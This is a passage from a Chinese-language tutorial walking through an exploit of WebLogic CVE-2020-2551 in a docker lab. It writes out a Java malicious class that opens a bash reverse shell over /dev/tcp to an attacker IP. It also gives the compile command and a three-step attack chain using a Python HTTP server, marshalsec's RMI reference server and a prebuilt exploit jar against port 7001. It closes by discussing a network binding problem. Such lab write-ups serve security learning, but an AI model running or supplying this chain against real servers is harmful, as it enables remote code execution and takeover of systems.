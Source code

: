 `git clone https://github.com/Y4er/CVE-2020-2551`

这里笔者直接偷懒不编译了,直接作者已经编译的`weblogic_CVE_2020_2551.jar`

2.Weblogic10.3.6.0 环境

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409003127985.png)

这里采取的还是`vulhub`的docker环境比较方便。

3.编译exp class:

这里我们修改下恶意执行命令类为反弹shell

```
import java.lang.Runtime;
import java.lang.Process;

public class EvilClass `{`
    static `{`
        try `{`
            Runtime rt = Runtime.getRuntime();
            String[] commands = `{`"/bin/bash", "-c", "bash -i &gt;&amp; /dev/tcp/192.168.0.3/9011 0&gt;&amp;1"`}`;
            Process pc = rt.exec(commands);
            pc.waitFor();
        `}` catch (Exception e) `{`
            // do nothing
        `}`
    `}`
`}`
```

`javac -source 1.6 -target 1.6 EvilClass.java`

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409005338746.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409005338746.png)

然后就和上面那个例子差不多了,只不过我们这次多了一个监听的过程。

```
1.python -m SimpleHTTPServer 8000
2.java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.3:8000/#EvilClass" 1099
3.java -jar weblogic_CVE_2020_2551.jar 192.168.0.3 7001 rmi://192.168.0.3:1099/exp
```

这里:`192.168.0.3`是我的本机IP内网IP,docker可以访问,但是本机没办法访问docker的内容。

[![](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409005802236.png)](https://raw.githubusercontent.com/mstxq17/figuredbed/master/imgimage-20200409005802236.png)

这样会失败的,因为你这个IIOP涉及一个bind的过程，这个过程需要weblogic返回第一个地址来让我们攻击的那个jar来绑定，这个返回地址其实是docker的内网ip,然后我们去绑定的时候是访问不到这个ip的，[手把手教你解决Weblogic CVE-2020-2551 POC网络问题](https://xz.aliyun.com/t/7498),这里作者之所以演示成功，是因为作者直接把kali放在跟docker同一网段里面。

那么该怎么解决呢？？ 那我们修改下exp呗，就是让它不要用weblogic返回的地址内网ip去访问7001，而是指定我们可以访问的ip+7001去访问。(这个关于为什么，后面我细说IIOP协议实现机制的时候会跟小萌新们一起探讨，我们先run起来)
